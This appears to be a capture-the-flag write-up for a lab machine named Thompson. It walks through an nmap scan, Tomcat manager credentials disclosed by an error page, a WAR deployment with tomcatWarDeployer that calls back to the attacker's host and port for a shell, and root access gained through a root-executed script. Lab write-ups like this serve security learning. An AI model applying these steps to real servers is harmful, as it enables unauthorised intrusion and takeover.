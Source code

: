 # Thompson

---

## Reconnaissance

IP address : 10.10.164.148

## Scanning & Enumeration

### nmap Scan

```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.164.148
```

we scan result can is [here](nmap/all_port)

interesting open port are:

| port number | service | version |
| --- | --- | --- |
| 22 | ssh |  OpenSSH 7.2p2 |
| 8009 | ajp13 | Apache Jserv (Protocol v1.3) |
| 8080 | http | Apache Tomcat 8.5.5 |

### Apache Tomacat 8.5.5.5 Enumeration

* creds disclosure

by exploring http 8080 we got this page and when we try to login wihout credentials the app crash and disclose some credentials

![password disclose](img/password-disclosure.png)

after we log on the mangament interface.

![tomcat manager](img/tomcat-manager.png)

## Exploitation

### Exploit Tomcat Manager

After looking around the internet a found a [way](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) to exploit this.

I decide to go wihout msf. I choose to use [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer)

```shell
 python tomcatWarDeployer.py  -U $USER -P $PASSWORD -H $LHOST -p $LPORT  $LHOST:$LPORT
 ```

### Privilege escalation

After enumerating the machine, we found that the id.sh file is executed as root

![exec root](img/root-exec.png)

so all we have to do is puting our command to be executed inside this file.
